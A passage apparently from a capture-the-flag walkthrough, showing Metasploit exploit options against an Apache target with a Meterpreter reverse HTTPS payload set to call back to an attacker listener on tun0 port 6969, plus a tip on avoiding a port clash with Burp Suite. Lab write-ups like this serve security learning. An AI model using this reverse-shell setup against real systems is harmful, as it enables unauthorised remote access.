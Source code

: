 ```
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The local listener hostname
   LPORT  6969             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper

```

> If you are running BurpSuite on port 8080, remember to change the port for SRVPORT to another value. Here, I have set the value of SRVPORT to 8081 since burp was running on port 8080. You could also have an alternate configuration via the PROXIES option. 

Now we can run the exploit. 

![apache-msf.png](/img/monitors/apache-msf.png)

